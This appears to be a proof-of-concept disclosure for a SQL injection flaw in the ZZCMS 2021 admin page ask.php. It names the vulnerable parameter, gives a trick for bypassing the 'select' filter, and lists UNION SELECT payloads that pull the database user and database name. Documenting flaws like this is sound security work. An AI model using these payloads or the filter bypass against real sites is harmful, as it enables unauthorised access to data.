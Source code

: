 # ZZCMS 2021 SQL Injection POC

Profile
-----
    ZZCMS2021 has a SQL injection vulnerability that allows an attacker to access /admin/ask.php?The askBigClassid parameter on the do=add page retrieves sensitive data, causing sensitive information leakage of users.

Location
----
    http://ip/admin/ask.php?do=add

Affected Products
----
    ZZCMS2021

PoC
----
1.Request the page as normal and get the response

![](https://github.com/Boomingjacob/ZZCMS/blob/main/1.jpg)
2.If the invalid character "select" is used, the response will report an error

![](https://github.com/Boomingjacob/ZZCMS/blob/main/2.jpg)

3.Use the c=siteconfig.php parameter in the request path to bypass sensitive strings such as select
Payload：askbigclassid=-1+union+select+user(),2,3,4,5,6,7,8,9,10,11
Query the current user name: root

![](https://github.com/Boomingjacob/ZZCMS/blob/main/3.jpg)

4.Payload：askbigclassid=-1+union+select+database(),2,3,4,5,6,7,8,9,10,11
Query the current database name: ZZCMS

![](https://github.com/Boomingjacob/ZZCMS/blob/main/4.jpg)
